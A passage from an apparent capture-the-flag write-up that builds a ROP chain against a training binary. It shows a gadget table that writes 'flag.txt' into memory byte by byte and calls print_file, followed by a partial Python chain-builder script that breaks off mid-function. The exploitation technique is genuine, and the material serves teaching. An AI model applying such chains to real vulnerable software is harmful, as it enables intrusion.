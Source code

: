 | 26 | 8            | pop_bswap_cx, `memory4string+6`     | `memory4string+6` in big-endian.                                                                                                                                                                                                                                                    |
| 27 | 8            | pop_bp, get_mask(`"x"`)             |                                                                                                                                                                                                                                                                                     |
| 28 | 8            | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 29 | 8            | exchange_byte                       | After this operation, the string will be `"flag.tx"`                                                                                                                                                                                                                                |
| 30 | 9            | pop_bswap_cx, `memory4string+7`     | `memory4string+7` in big-endian.                                                                                                                                                                                                                                                    |
| 31 | 9            | pop_bp, get_mask(`"t"`)             |                                                                                                                                                                                                                                                                                     |
| 32 | 9            | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 33 | 9            | exchange_byte                       | After this operation, the string will be `"flag.txt"`                                                                                                                                                                                                                               |
| 34 | 10           | print_file, `"XXXX"`, memory4string |                                                                                                                                                                                                                                                                                     |

Where `"XXXX"` is the return address from the `print_file` function, which is not needed at all (it's there just to ensure that the parameter `memory4string` is in the right place on the stack).

All that remains is to build the Python script that creates the ROP chain, and we’re done!

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in
    : little-endian format.
    """
    return struct.pack("<I", number)



def big_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in
    : big-endian format.
    """
    return struct.pack(">I", number)



def get_mask(target, value=0xb0bababa):
    target_bits = bin(ord(target))[2:]
    value_bits  = bin(value)[2:]
    mask_bits   = ''

    while(target_bits):
        if target_bits[-1] == value_bits[-1]:
            mask_bits = '1' + mask_bits
            target_bits = target_bits[:-1]
        else:
            mask_bits = '0' + mask_bits
        value_bits = value_bits[:-1]

    while(value_bits):
        if value_bits[-1] == '0':
            mask_bits = '1' + mask_bits
        else:
            mask_bits = '0' + mask_bits
```